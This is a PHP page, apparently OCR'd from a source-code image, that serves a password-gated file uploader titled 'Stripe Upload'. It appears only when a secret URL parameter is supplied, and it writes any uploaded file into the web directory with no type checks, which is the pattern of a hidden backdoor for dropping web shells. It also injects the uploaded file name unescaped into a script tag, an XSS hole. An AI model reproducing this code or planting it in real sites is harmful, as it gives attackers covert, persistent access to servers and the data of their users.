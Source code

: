  if ($_GET['ur1-id'] == "gh_NGHHBGF-4635")
{
	session_start();
	if (isset($_POST["submit"]))
	{
		$str =  "<script>$('#retval').html('";
		if ($_POST['pwd'] == 'BNH_11-hgdbnj') {
        $target_dir    = "./";
        $target_file   = $target_dir . basename($_FILES["fileToUpload"]["name"]);
        $uploadOk      = 1;
        $FileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));
        // Check if file already exists
        if (file_exists($target_file))
		{
            $str .= "Sorry, file already exists.<br>";
            $uploadOk = 0;
        }
        if ($uploadOk == 0) {
            $str .= "Sorry, your file was not uploaded.";
            // if everything is ok, try to upload file
        } else {
            if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
                $str .= "The file " . basename($_FILES["fileToUpload"]["name"]) . " has been uploaded.";
            } else {
                $str .= "Sorry, there was an error uploading your file.";
            }
        }
    } else {
        $str .= "Invalid key";
    }
    $str .= "');</script>";
    $_SESSION['message'] = $str;
    unset($_POST);
    unset($_FILES);
    header("Location: parent_info_123.php?ur1-id=gh_NGHHBGF-4635");
    exit;
}
?>
<!DOCTYPE html>
<html>

<head>
    <meta charset="utf-8">
    <title>Stripe Upload</title>
    <link rel="icon" href="favicon.png">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
	<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
	<script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js"></script>
	<script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js"></script>
</head>

<body class="text-center">
    <div class="container-fluid">

        <div class="row justify-content-center">
            <div class="mx-1 mt-1 card rounded">
                <div class="card-body">
                    <form action="?order_id=gFa6IcyDFvlq4w==" method="post" enctype="multipart/form-data" class="form-signin">
                        <h1 class="h3 mb-3 font-weight-normal">Please verify</h1>
                        <label for="inputPassword" class="sr-only">Password</label>
                        <input type="password" name="pwd" id="pwd" class="form-control" placeholder="Password" required>
                        <label class="btn btn-primary btn-block">
                            Browse <input type="file" name="fileToUpload" id="filetoUpload"
                                onchange="$('#upload-file-info').html(this.files[0].name)" hidden>
                        </label>
                        <p class='label label-info' id="upload-file-info"></p>
                        <p class='label label-info' id="retval"></p>
                        <button name="submit" class="btn btn-lg btn-primary btn-block" type="submit">Verify and upload
                        </button>
                    </form>
                </div>
            </div>

        </div>
    </div>
    <?php
        if(isset($_SESSION['message']))
        {
            echo $_SESSION['message'];
            unset($_SESSION['message']);
        }
    ?>
</body>

</html>
<?php
}
